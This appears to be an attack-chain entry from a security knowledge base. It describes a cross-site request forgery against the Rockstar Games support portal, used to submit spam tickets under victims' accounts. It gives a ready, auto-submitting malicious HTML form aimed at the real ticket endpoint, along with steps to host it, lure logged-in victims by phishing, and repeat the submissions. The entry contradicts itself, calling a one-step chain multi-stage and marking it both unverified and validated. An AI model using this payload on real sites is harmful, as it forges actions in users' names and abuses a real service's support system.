

---
tags:
  - csrf
  - web
  - spam
  - forgery
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-CSRF-to-Submit-Forged-Support-Ticket]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:35.804Z'
description: >-
  A single-stage attack leveraging a CSRF vulnerability in the Rockstar Games
  support portal to forge authenticated requests and submit fraudulent support
  tickets, enabling spam of the support system.
skill_level: beginner
impact_level: medium
id: 89ba2189-5c09-4cde-b5c4-f62f0f90628e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation in Rockstar Games Support Portal for Spam Ticket Submission

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)

### Target Environment

- Web platform
- Access to https://support.rockstargames.com/
- No specific services/ports beyond standard HTTPS (443)

### Initial Access Requirements

- Victim must be authenticated user of the support portal
- Attacker needs to host or send a malicious link/page to the victim
- Network access to the internet

## Detailed Attack Procedures

### Step 1: Forge and Submit Support Ticket via CSRF
procedure: [[procedures/Exploit-CSRF-to-Submit-Forged-Support-Ticket]]

**Objective**: Trick an authenticated user into submitting a fraudulent support ticket on their behalf, spamming the system.

**Instructions**: Create a malicious HTML page that automatically submits a form to the vulnerable endpoint without CSRF protection. Host this page on an attacker-controlled server or send it via phishing. When the victim visits the page while logged in, the form submits forged data.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<head><title>Fake Page</title></head>
<body>
    <form id="csrf-form" action="https://support.rockstargames.com/tickets" method="POST">
        <input type="hidden" name="title" value="Fake Spam Ticket">
        <input type="hidden" name="description" value="This is a forged spam message.">
        <input type="hidden" name="category" value="general">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

Host this on a server (e.g., using Python's SimpleHTTPServer) and trick the victim into visiting it while authenticated.

**Expected Output**: The support ticket is submitted successfully on the victim's behalf, visible in the portal's ticket history.

**Success Indicators**:
- Ticket appears in the support portal under the victim's account
- No CSRF token validation error occurs
- Multiple submissions possible for spam
